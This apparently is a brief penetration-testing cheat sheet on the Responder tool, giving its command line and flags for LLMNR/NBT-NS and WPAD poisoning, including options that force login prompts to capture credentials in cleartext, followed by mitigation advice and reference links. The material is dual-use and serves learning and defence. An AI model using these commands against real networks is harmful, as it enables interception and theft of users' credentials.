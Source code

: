 Responder

```
responder -i <AttackingIP> -w

-i specific ip address
-I specific network interface
-w Starts WPAD proxy server. For computers looking for WPAD responder will send its information
-F (this forces a login prompt for users to grab creds in cleartext) 
-b HTTP authentication ( prompts when users use IE)
-r needed to rectify -b errors

Note don't use -b and/or -r in a production environment
```

**Responder 2.0:**

Repsonder with NTLMv2

[https://www.trustwave.com/Resources/SpiderLabs-Blog/Responder-2-0---Owning-Windows-Networks-part-3/](https://www.trustwave.com/Resources/SpiderLabs-Blog/Responder-2-0---Owning-Windows-Networks-part-3/)





To mitigate this attack from potentially happening in your local network domain, it is best to disable LLMNR and NBT-NS. Note that in the above attack scenarios, these protocols were only used when no DNS entries existed for the queries. Providing your DNS server resolves the names that need to be found in your network, the other protocols do not need running.



To mitigate against the WPAD attack, you can add an entry for "wpad" in your DNS zone. Note that the DNS entry does not need to point to a valid WPAD server. As long as the queries are resolved, the attack will be prevented.













**References:**

[https://www.youtube.com/watch?v=sAr4PBR7EUE](https://www.youtube.com/watch?v=sAr4PBR7EUE)

[https://www.4armed.com/blog/llmnr-nbtns-poisoning-using-responder/](https://www.gitbook.com/book/pittst0p/ctf/edit#)


